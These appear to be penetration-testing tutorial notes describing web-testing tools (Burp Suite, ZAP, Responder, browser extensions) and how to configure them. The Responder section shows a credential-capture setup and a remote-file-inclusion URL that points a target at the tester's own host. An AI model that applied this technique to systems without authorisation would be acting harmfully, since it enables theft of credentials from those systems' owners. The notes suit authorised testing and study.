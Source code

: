# Tools

## <mark style="color:green;">Burp Suite</mark>

* Digital plattform that collects tools for specialiced web penetration testing.
* Framework written in Java that aims to provide a one-stop-shop for web application penetration testing
* Capture and manipulate all of the traffic between an attacker and a webserver
* Can intercept, view, and modify request
* Burp suite has modules that can be added

### **Features**

* **Proxy:** Allows us to intercept and modify requests/responses.&#x20;
* **Repeater:** Allows us to capture, modify, then resend the same request numerous times. We could craft requests by hand too.
* **Intruder:** Allows us to spray an endpoint with requests.
* **Decoder:** Allows us to transform data, decoding captured information, or encoding a payload.
* **Comparer:** Allows us to compare two pieces of data at either word or byte level.
* **Sequencer:** Help us asses random tokens or other generated data.

### Configure

#### Proxy

* We required the _FoxyProxy_ extension
* Create a proxie profile on FoxyProxy specifying IP 127.0.0.1 and PORT 8080
* Select the profile on the extension
* Then go to burpsuite proxy tab and set intercept to _on_
* Go to _proxy settings_ to the _Response Interception_ part and mark _Intercept responses_ and _Or Request was intercepted_

#### Define scope

* Go to target tab
* On left side select the IP/Domain
* Right-click it and select _add to scope_
* Then go to _proxy settings_ on proxy tab
* Go to the _Request Interception_ part and mark _And url is in target scope_

#### Configure HTTPS proxy

* Activate proxy and go to [http://burp/cert](http://burp/cert) on browser
* Download _cacert.der_ file
* Go to _about:preferences_ on browser
* Search _Cetificates_ and select _View Certificates_
* Click on Import and selct the cacer.der
* Mark _Trust this CA to indetify websites_ and save all

#### Configure HTTPS proxy

* **Ctrl + R:** Send petition to Repeater
* **Ctlr + U:** URL encode selected text



## <mark style="color:green;">Responder</mark>

Help in passive obtention of credentials by mounting a SMB server in web

* Configurate file

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nano /usr/share/responder/Responder.conf #Installed here by default
```
{% endcode %}

***

* Initialize Responder

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo responder -I $networkinterface
```
{% endcode %}

{% hint style="info" %}
**Note:** If ypu get error in any port, set _off_ in the service related to that port in _Responder.conf_ file
{% endhint %}

***

* Make Remote file inclusion at page

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>http://$url/$query?$value=//$myip/somefile
</strong></code></pre>

***



## <mark style="color:green;">ZAP</mark>

* Proxy utility stands for Zed Attack Proxy

### **Features**

* **Contexts:** Delimit the scope of the scanning
* **Spider:** Use spidering to get links in the code of a website
* **Active scan:** Attacks the website to get more information
* **Alerts:** Give vulnerabilities found on the web site
* **Sites:** Shows all the URL spidered with their petitions and vulnerabilities
* **History:** Shows petitions made to the site

### **Configuration and utilities**

* Install _SwitchyOmega_ extension
* Configure server to _localhost_ and save changes
* Go to _adds-on_ tab and from marletplace install: _all release, python scripting, community scripts, custom payloads, json view, jwt support, viewstate_.
* Go to settings HUD deactivate _Using ZAP desktop and welcome message._

### Tips

* Can configure Global Alert Filters to set your own grade for a vulnerability.
* From _History_ you can right click and select _Resend_ to modify a petition made before
* **For fuzzing:**&#x20;
  * Select a part of the request and right-click _Fuzz_&#x20;
  * Select _Payloads_ button, select dictionary file or enter custom words
  * In _Message Proccesor_s tab add a new one for exclude errors that arent meaningful
  * In Global Settings go to _Anti-CSRF cert token_, an add the tokens detected in forms POST petitions
  * When getting 304 responses in _Fuzz->Options_ activate _Follow Redirects_
  * When not getting consistent token handle in _Fuzz->Options_ reduce the threads to 1

### Commands

* Installation

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo apt install zaproxy
```
{% endcode %}

***



## <mark style="color:green;">Hacktools</mark>

* Browser extension that help us with scripts, commands and tips for web attacks
* [https://addons.mozilla.org/en-US/firefox/addon/hacktools/](https://addons.mozilla.org/en-US/firefox/addon/hacktools/)

### **Features**

* Reverse shell scripts
* PHP reverse shell scripts
* TTY Spawn shell
* Linux commands
* Powershell commands
* Windows file transfer methods
* Local File Inclusion
* Cross-Site Scripting
* SQL Injection
* Data Encoding
* Obfuscated Files or Information
* Hash generator
* MSF Venom Builder



## <mark style="color:green;">FoxyProxy</mark>

* Browser extension that help us creating proxies, usually for request-response analysis
* [https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/](https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/)



## <mark style="color:green;">Wappalyzer</mark>

* Browser extension that help us sending anonymous information about websites visited, including domain name and identified technologies.
* [https://addons.mozilla.org/en-US/firefox/addon/wappalyzer/](https://addons.mozilla.org/en-US/firefox/addon/wappalyzer/)
